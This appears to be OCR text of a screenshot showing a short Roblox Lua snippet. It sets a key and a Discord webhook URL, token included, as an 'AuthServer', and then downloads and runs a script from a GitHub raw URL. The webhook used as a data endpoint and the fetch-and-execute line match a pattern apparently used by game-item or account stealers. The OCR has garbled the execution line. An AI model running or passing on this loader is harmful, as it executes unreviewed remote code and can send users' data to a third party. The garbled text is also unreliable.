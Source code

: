 _G.Key = "yyy57der"

_G.AuthServer = " https://discord.com/api/webhooks/1051533250260119613/5-MphAESXGfNB0dzG1fuhG5X6KosJtpZ7FjW6qSQpUPbhkVe3vICADc

String get(Laro: HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()
